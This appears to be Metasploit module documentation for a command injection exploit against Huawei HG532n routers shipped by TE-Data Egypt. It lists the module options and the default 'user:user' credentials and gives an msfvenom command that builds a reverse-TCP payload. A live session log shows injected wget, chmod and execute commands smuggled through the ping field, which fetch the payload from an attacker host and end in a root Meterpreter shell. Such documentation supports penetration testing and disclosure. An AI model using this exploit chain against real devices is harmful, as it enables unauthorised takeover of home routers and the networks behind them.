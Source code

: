 # HG532n Command Injection Exploit

## Introduction

The Huawei HG532n routers, shipped by TE-Data Egypt, are vulnerable to a command
injection exploit in the ping field of their limited shell interface.

Affected hardware/software version strings:

```
   Manufacturer: Huawei Technologies Co., Ltd.
   Product Style: HG532n
   SN: B7J7SB9381703791
   IP: 192.168.1.1
   Hardware Version: HG532EAM1HG530ERRAMVER.B
   Software Version: V100R001C105B016 TEDATA
```


## Usage

- Set `payload` to `linux/mipsbe/mettle_reverse_tcp`

- Set `RHOST` to the target router's IP

- Set `SRVHOST` to your local machine's __external__ IP. The module starts its
  own HTTP server; this is the IP the exploit will use to fetch the MIPSBE
  payload from, through an injected `wget` command. Make sure this address is
  accessible from outside.

- Set `SRVPORT` to the desired local HTTP server port number. Make sure this
  port is accessible from outside.

- Set `LHOST` to your machine's __external__ IP address. A successful Reverse
  TCP payload will ring us back to this IP.

- Set `LPORT` to an arbitrary port number that is accessible from outside
  networks. Metasploit will open a listener on that port and wait for the
  payload to connect back to us.

- Set `VERBOSE` to `true` if you want to see much more verbose output (Detailed
  injected telnet commands output).

TE-Data firmware ships with the `user:user` login credentials by default.
They offer limited functionality, but they are enough for our purposes.
In case you want want to change these, set `HttpUsername` and `HttpPassword`
appropriately.

Now everything should be ready to run the exploit. Enjoy your Meterpreter
session :-)

Alternatively, you can avoid hosting the payload executable from within the
module's own HTTP server and host it externally. To do so, first generate
the payload ELF executable using `msfvenom`:

```
$ msfvenom --format elf --arch mipsbe --platform linux --payload linux/mipsbe/mettle/reverse_tcp --out payload.elf LHOST='41.34.32.121' LPORT=4444

No encoder or badchars specified, outputting raw payload
Payload size: 212 bytes
Final size of elf file: 296 bytes
Saved as: payload.elf
```

Then host the `payload.elf` file on an external, direct-access, web
server. Afterwards set `DOWNHOST` to the external server's IP address
and `DOWNFIILE` to the payload's path on that server. Run the exploit
afterwards.


## Live Scenario

```
$ msfconsole
msf > use exploit/linux/http/huawei_hg532n_cmdinject

msf exploit(huawei_hg532n_cmdinject) > set RHOST 197.38.98.11
RHOST => 197.38.98.11

msf exploit(huawei_hg532n_cmdinject) > set SRVHOST 41.34.32.121
SRVHOST => 41.34.32.121

msf exploit(huawei_hg532n_cmdinject) > set LHOST 41.34.32.121
LHOST => 41.34.32.121

msf exploit(huawei_hg532n_cmdinject) > set VERBOSE true
VERBOSE => true

msf exploit(huawei_hg532n_cmdinject) > exploit
[*] Exploit running as background job.
msf exploit(huawei_hg532n_cmdinject) >
[-] Handler failed to bind to 41.34.32.121:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Validating router's HTTP server (197.38.98.11:80) signature
[+] Good. Router seems to be a vulnerable HG532n device
[+] Telnet port forwarding succeeded; exposted telnet port = 33552
[*] Connecting to just-exposed telnet port 33552
[+] Connection succeeded. Passing telnet credentials
[*] Received new reply token = '����
Password:'
[*] Received new reply token = 'Password:'
[+] Credentials passed; waiting for prompt 'HG520b>'
[*] Received new reply token = 'HG520b>'
[+] Prompt received. Telnet access fully granted!
[*] Starting web server; hostinig /MDGuEPiUDBRXD
[*] Using URL: http://0.0.0.0:8080/MDGuEPiUDBRXD
[*] Local IP: http://192.168.1.3:8080/MDGuEPiUDBRXD
[*] Runninig command on target: wget -g -v -l /tmp/zjtmztfz -r /MDGuEPiUDBRXD -P8080 41.34.32.121
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;wget${IFS}-g${IFS}-v${IFS}-l${IFS}/tmp/zjtmztfz${IFS}-r${IFS}/MDGuEPiUDBRXD${IFS}-P8080${IFS}41.34.32.121;true'
[*] Received new reply token = 'ping: bad address '?''
[+] HTTP server received request. Sending payload to victim
[*] Received new reply token = 'The IP is [41.34.32.121]'
[*] Received new reply token = 'Success
ping result:
HG520b>'
[+] Command executed succesfully
[*] Runninig command on target: chmod 777 /tmp/zjtmztfz
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;chmod${IFS}777${IFS}/tmp/zjtmztfz;trueping: bad address '?'

Success
ping result:
HG520b>'
[+] Command executed succesfully
[*] Runninig command on target: /tmp/zjtmztfz
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;/tmp/zjtmztfz&trueping: bad address '?'

Success
ping result:
HG520b>'
[+] Command executed succesfully
[*] Runninig command on target: rm /tmp/zjtmztfz
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;rm${IFS}/tmp/zjtmztfz;trueping: bad address '?'

Success
ping result:
HG520b>'
[+] Command executed succesfully
[*] Waiting for the payload to connect back ..
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 197.38.98.11:50097) at 2017-04-15 16:45:05 +0200
[+] Payload connected!
[*] Server stopped.

msf exploit(huawei_hg532n_cmdinject) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.21.5)
Architecture : mips
Meterpreter  : mipsbe/linux
meterpreter >
```
